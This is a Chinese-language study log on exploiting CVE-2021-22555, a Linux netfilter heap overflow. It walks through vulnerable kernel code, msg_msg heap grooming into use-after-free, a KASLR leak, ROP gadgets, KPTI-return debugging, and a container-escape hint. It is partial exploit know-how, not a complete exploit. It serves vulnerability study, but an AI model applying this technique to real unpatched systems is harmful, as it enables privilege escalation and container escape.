



## 编译选项

影响版本：Linux v2.6.19-rc1~v5.12-rc7 v5.12-rc8已修补，漏洞存在了15年，评分7.8。 
已修复的版本有 5.12，5.10.31, 5.4.113, 4.19.188, 4.14.231, 4.9.267, 4.4.267。 由syzkaller发现

通过阅读[此篇文章](https://bsauce.github.io/2021/09/23/CVE-2021-22555/)学习，在作者的github提供了[config](https://github.com/bsauce/kernel-exploit-factory/blob/main/CVE-2021-22555/config)文件。

```config
CONFIG_IP_NF_** 全为y
CONFIG_NETFILTER_** 全部为 `y`
CONFIG_E1000和CONFIG_E1000E，变更为=y

CONFIG_USER_NS=y
CONFIG_NET_NS=y
CONFIG_COMPAT=y
```

编译内核

```bash
$ wget https://raw.githubusercontent.com/bsauce/kernel-exploit-factory/main/CVE-2021-22555/config
$ make olddefconfig
$ make -j32 bzImage
```

但是还需要手动改一些 `CONFIG_NETFILTER` 选项，然后 `make olddefconfig`

## 大致原理

详情看[pdf](./study.pdf)

漏洞发现：作者根据 CVE-2016-3134 && CVE-2016-4997 在 Netfilter 子系统寻找 `memset()` && `memcpy()` 之类的函数，然后就找到了。

*xtable: backend for {ip, ip6, arp}_tables*

`net/netfilter/x_tables.c` 中 Netfilter 模块的ip_tables子模块，当调用setsockopt()和选项IPT_SO_SET_REPLACE（或 IP6T_SO_SET_REPLACE）时，在32位转化为64位时计算错误，导致在调用 xt_compat_match_from_user() | xt_compat_target_from_user() 函数时, **堆溢出写 0**，且问题相同（虽然修复后 patch 这两个函数，需要这两个函数配合进行触发。

xt_compat_match/target_from_user: IPT_SO_SET_REPLACE 选项会先后调用这两个函数
- pad求法：先对其，然后减去原先的size。XT_ALIGN：向上取8对齐；memset: 将pad的区域 置为 \0
- 两次对齐，导致出现问题

```cpp
// https://elixir.bootlin.com/linux/v5.10.27/source/net/netfilter/x_tables.c
void xt_compat_match_from_user(struct xt_entry_match *m, void **dstptr,
			       unsigned int *size)
{
	const struct xt_match *match = m->u.kernel.match;
	struct compat_xt_entry_match *cm = (struct compat_xt_entry_match *)m;
	int pad, off = xt_compat_match_offset(match);
	u_int16_t msize = cm->u.user.match_size;
	char name[sizeof(m->u.user.name)];

	m = *dstptr;
	memcpy(m, cm, sizeof(*cm));
	if (match->compat_from_user)
		match->compat_from_user(m->data, cm->data);
	else
		memcpy(m->data, cm->data, msize - sizeof(*cm));
	pad = XT_ALIGN(match->matchsize) - match->matchsize;
	if (pad > 0)
		memset(m->data + match->matchsize, 0, pad);

	msize += off;
	m->u.user.match_size = msize;
	strlcpy(name, match->name, sizeof(name));
	module_put(match->me);
	strncpy(m->u.user.name, name, sizeof(m->u.user.name));

	*size += off;
  // msize = u.user,match_size + off
	*dstptr += msize;
}
EXPORT_SYMBOL_GPL(xt_compat_match_from_user);

void xt_compat_target_from_user(struct xt_entry_target *t, void **dstptr,
				unsigned int *size)
{
	const struct xt_target *target = t->u.kernel.target;
	struct compat_xt_entry_target *ct = (struct compat_xt_entry_target *)t;
	int pad, off = xt_compat_target_offset(target);
	u_int16_t tsize = ct->u.user.target_size;
	char name[sizeof(t->u.user.name)];

	t = *dstptr;
	memcpy(t, ct, sizeof(*ct));
	if (target->compat_from_user)
		target->compat_from_user(t->data, ct->data);
	else
		memcpy(t->data, ct->data, tsize - sizeof(*ct));
	pad = XT_ALIGN(target->targetsize) - target->targetsize;
	if (pad > 0)
		memset(t->data + target->targetsize, 0, pad);

	tsize += off;
	t->u.user.target_size = tsize;
	strlcpy(name, target->name, sizeof(name));
	module_put(target->me);
	strncpy(t->u.user.name, name, sizeof(t->u.user.name));

	*size += off;
	*dstptr += tsize;
}
EXPORT_SYMBOL_GPL(xt_compat_target_from_user);
```

利用时可能会造成些许的数据偏差，到最后利用就时**两字节堆溢出写0**。

## exploit

~~花了很长时间，最后没有成功😭~~ 我又觉得我行了。

开启 kaslr,smap,smep,kpti 防护，但是调试时 关闭 kaslr

### trigger heap overflow debug

xtable_info 结构体：

```cpp
struct xt_table_info {
	unsigned int size;													// 表中所有规则rule占用的内存大小
	unsigned int number;												// 表中存的rule个数
	unsigned int initial_entries;								// 初始化表时创建的默认rule个数
	unsigned int hook_entry[NF_INET_NUMHOOKS];	// 各个hook(chain)在表中的偏移量
	unsigned int underflow[NF_INET_NUMHOOKS];		// 各个hook(chain)中默认规则在表中的偏移量
	unsigned int stacksize;
	void ***jumpstack;
	unsigned char entries[] __aligned(8);				// 数组，存储各个cpu上自己rule拷贝的内存首地址
                    //每个`entries` 包含 `ipt_entry` + `xt_entry_match` + pad + `xt_entry_target`
};

struct __attribute__((__packed__)) {
  struct ipt_replace replace;
  struct ipt_entry entry;
  struct xt_entry_match match;
  char pad[0x108 + PRIMARY_SIZE - 0x200 - 0x2];
  struct xt_entry_target target;
} data = {0};
```

设置断点在两个漏洞函数上，用户进程通过 setsockopt 与内核 netfilter 进行交互，触发漏洞。


查看内存，根据tag，其后面的内容为 msg_msg 结构体

并且可以向上寻找漏洞系列函数，寻找到函数传递的参数


0xa+0x4+0x4 => 0x12 因此两字节溢出。

### heap overflow to uaf

1. 创建0x1000个主从消息，主消息 object 大小 0x1000, 从消息 object 大小 0x400。先填充主消息，后填充从消息
2. 释放1024，2048，3072的主消息，创造 0x1000 的 msg hole
3. 触发堆溢出，将释放的某个消息的 下一个消息 `msg_msg->m_list.next` 末尾两字节修改为0，指向其余secondary_msg，造成两个 primary_msg(real/victim) 指向同一个 secondary_msg
4. 通过消息内容，定位占位的消息
5. 使用 real msg_queue 释放 secondary_msg，然后使用 sk_buff 占位，从而可以任意写目的，我们可以通过 victim msg_queue 任意读
- 先修改 m_ts 大小（小于 0x1000），从而泄露 victim secondary_msg 的 next secondary_msg 内容，从而得到 next primary_msg 的地址
- 在修改 m_next 指针和 m_ts ，泄露 next primary_msg 内容，从而得到 next secondary_msg 地址
- slab-1024 object 相邻，可以得到 victim secondary_msg 地址


### bypass kaslr

pipe->buf 0x280 使用 kmalloc-1024, 因此可以使用 pipe_buffer->ops 中的结构体 leak 

### ROP

close pipe 时会调用 `pipe_buffer->ops->release`
bypass smep, smap, kpti，直接向内核堆(secondary_msg 0x400 足够的)中使用sk_buff写入rop链

如果直接跳到堆上,ROP报错


看源码，断点设置在 `free_pipe_info`，最终调用 `pipe_buf_release`.查看寄存器的值, 或者直接看函数, rsi 为我们 的 buf 结构体.
- 在 pipe_buffer 之中伪造一个 fake ops 结构体，释放 pipe 的时候会调用 ops->release ，这时 pipe_buffer 会在rsi 指针之中。
- rax => release的值，也是我们填入的地址

1. 因此找 gadget 可以通过 rsi 控制 rsp
2. 通过 rax 控制 rsp


找到如下gadget, 但是rcx=0 rbx=0 地址不可访问

```cpp
0xffffffff81684618 : push rsi ; pop rsp ; add byte ptr [rcx + 0x5c], al ; pop r13 ; pop rbp ; ret
0xffffffff810899d3 : push rsi ; add byte ptr [rbx + 0x41], bl ; pop rsp ; pop rbp ; ret 
0xffffffff826dcc2a : push rsi ; jmp rsi  => unable to handle page fault for address: ffffffff826dcc2a
mov rsi, rsp 直接或者间接没找到
```

间接跳转
```cpp
0xffffffff81bbc539 : push rsi ; jmp qword ptr [rsi + 0x45] 
```

还有就是 swapgs_restore_regs_and_return_to_usermode 绕过KPTI保护失败~~调试：这个 test 不成立导致无法进行 ? 很疑惑~~（看后面

```cpp
swapgs_restore_regs_and_return_to_usermode+22
fake rax = 0
fake rdi = 0
rip = get_shell
cs
rflags
rsp
ss
```

```cpp
pwndbg> x/60wi 0xffffffff81e00fc6
   0xffffffff81e01058 <common_interrupt_return+168>:    nop    DWORD PTR [rax+rax*1+0x0]
=> 0xffffffff81e01060 <common_interrupt_return+176>:    test   BYTE PTR [rsp+0x20],0x4
```

没有如下的gadget？
```cpp
iretq
sysret
```

降低内核版本，同样的问题，但是
- 使用 **pwntools 找 gadget**, 发现能找到 iretq
- 使用 swapgs 然后 iretq 注册 signal 函数进行攻击 : 卡死🥲 
- sysret

```cpp
swapgs;
iretq
rip
...
// sysret 的参数设置
rcx: save the rip of the code to be executed when returning to userspace
r11: save eflags
popq    %rdi
popq    %rsp
swapgs
sysretq
rip
...
```

问题出现在哪里？找个类似的[CTF: d3kheap](https://arttnba3.cn/2022/03/08/CTF-0X06-D3CTF2022_D3KHEAP/)题目调试一下
- [github 地址](https://github.com/arttnba3/D3CTF2022_d3kheap)
- 提权成功, 断点设置在 swapgs ，可以提权成功，看看寄存器和栈帧
- 一看我的调试栈， 寄存器(ss, esp, eflags)都是0，发现没有 save_status 🤡。
- 使用两种方式提权成功



调试脚本

```bash
file /kernel/linux-5.8/vmlinux
# add-symbol-file <file> <offset> 
target remote :1234

b xt_compat_match_from_user
b xt_compat_target_from_user

# b pipe_buf_release
b *0xffffffff81711cfc
b *0xffffffff81c00f30+22
b *0xffffffff8107b3c0
```

---
存在更简单利用方式：[dirty pipe](https://github.com/veritas501/CVE-2021-22555-PipeVersion)


容器提权 需要在执行 switch_task_namespaces(find_task_by_vpid(1), init_nsproxy)

## summary

一种比较通用的漏洞利用方式：打开内核 heap overflow 转化为 use after free的思路，进而利用。
但是如何寻找漏洞触发的点，以及用户态和内核态的交互 & 参数关系还是比较难理解。

问题： 内核 ROP 缺乏熟练度